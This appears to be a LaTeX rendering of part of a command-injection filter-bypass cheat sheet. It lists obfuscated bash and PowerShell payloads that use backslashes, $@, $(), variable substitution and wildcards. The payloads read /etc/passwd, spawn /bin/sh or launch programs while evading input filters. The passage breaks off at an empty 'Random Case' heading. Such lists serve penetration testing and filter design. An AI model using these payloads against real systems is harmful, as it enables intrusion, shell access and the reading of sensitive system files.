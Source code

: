\documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=bash]
w\ho\am\i
/\b\i\n/////s\h
c\a\t /e\t\c\/p\a\s\s\w\d
\end{lstlisting}

\subsection{Bypass With \$@}

\begin{lstlisting}[language=bash]
who$@ami
who$*ami
echo whoami|$0
\end{lstlisting}

\subsection{Bypass With \$()}

\begin{lstlisting}[language=bash]
who$()ami
who$(echo am)i
who`echo am`i
$(echo whoami)
\end{lstlisting}

\subsection{Bypass With Variable Expansion}

\begin{lstlisting}[language=bash]
# Using wildcards
/???/??t /???/p??s??
/???/cat /???/passwd

# Using variable substitution
test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
\end{lstlisting}

\subsection{Bypass With Wildcards}

\begin{lstlisting}[language=bash]
# Linux
/bin/cat /etc/passwd
/???/??t /???/p??s??
/???/cat /???/passwd

# Windows (PowerShell)
powershell C:\*\*2\n??e*d.*?    # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e  # calc
\end{lstlisting}

\subsection{Bypass With Random Case}
\end{document}
